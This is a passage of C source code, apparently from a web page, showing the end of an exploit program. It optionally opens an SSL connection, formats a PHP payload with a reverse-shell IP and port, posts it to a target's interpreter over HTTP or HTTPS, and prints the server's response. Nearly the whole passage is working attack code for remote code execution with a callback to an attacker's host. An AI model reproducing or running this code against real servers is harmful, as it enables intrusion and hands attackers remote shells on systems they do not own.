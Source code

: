 >     }
> 
>     sslconnection->handle = SSL_new(sslconnection->ctx);
>     if (!sslconnection->handle) {
>      printf("SSL_new error (12)\n");
>      exit(255);   
>     }
>     if (!SSL_set_fd(sslconnection->handle, sockfd)) {
>      printf("SSL_set_fd error (13)\n");
>      exit(255);
>     }
>    
>     if (SSL_connect(sslconnection->handle) != 1) {
>      printf("SSL_connect error (14)\n");
>      exit(255);       
>     }
>    }
>   
>    tmpsize = strlen(phpstr) + strlen(reverseip) + strlen(reverseportstr) + 64;
>    tmpstr = (char*)calloc(tmpsize, sizeof(char));
>    snprintf(tmpstr, tmpsize, phpstr, reverseip, reverseport);
>    
>    writesize = strlen(target) + strlen(interpreter) + 
>      strlen(poststr) + strlen(tmpstr) + 64;
>    writestr = (char*)calloc(writesize, sizeof(char));
>    snprintf(writestr, writesize, poststr, interpreter,
>      target, strlen(tmpstr), tmpstr);
>   
>    if (!httpsflag) {
>      write(sockfd, writestr, strlen(writestr));
>      readbuf = read_(sockfd);
>    } else {
>      SSL_write(sslconnection->handle, writestr, strlen(writestr));
>      readbuf = sslread(sslconnection);
>    }
>   
>    if (readbuf) {
>      printf("***SERVER RESPONSE***\n\n%s\n\n", readbuf);  
>    } else {
>     printf("read error (15)\n");
>     exit(255);    
>    }
>   }
>   exit(1);
> }
> {% endhighlight %}
